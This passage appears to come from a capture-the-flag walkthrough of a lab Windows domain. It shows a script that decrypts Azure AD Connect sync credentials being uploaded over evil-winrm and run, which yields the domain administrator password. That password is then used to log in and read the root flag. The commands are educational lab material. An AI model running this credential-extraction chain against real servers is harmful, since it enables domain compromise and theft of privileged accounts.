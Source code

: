 ```shell
Write-Host "Recovered Azure ADSync Credentials Successfully"
   
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

We can open our text editor on Kali, create a file called "AzureADDecryptMSOL.ps1" and put the script above inside:
```shell
sudo gedit AzureADDecryptMSOL.ps1
```
Then we can easily move the script using evil-winrm "upload" command:
```shell
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload AzureADDecryptMSOL.ps1
```
And finally run the script:
```shell
*Evil-WinRM* PS C:\Users\mhope\Desktop> ./AzureADDecryptMSOL.ps1
Retrieving Key_ID, Instance_ID, and Entropy...
Collecting Private and Encrypted Configuration...
Loading mcrypt.dll and Decrypting the Credentials...
Recovered Azure ADSync Credentials Successfully
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
It worked! We got the following credentials:
```shell
administrator:d0m@in4dminyeah!
```
## Using Evil-WinRM to Access as Administrator
Now we can use these credentials to get access as Administrator and get the root.txt flag:
```shell
evil-winrm -i 10.129.228.111 -u Administrator -p 'd0m@in4dminyeah!'
```
## Root Flag
```shell
type C:\Users\Administrator\Desktop\root.txt
```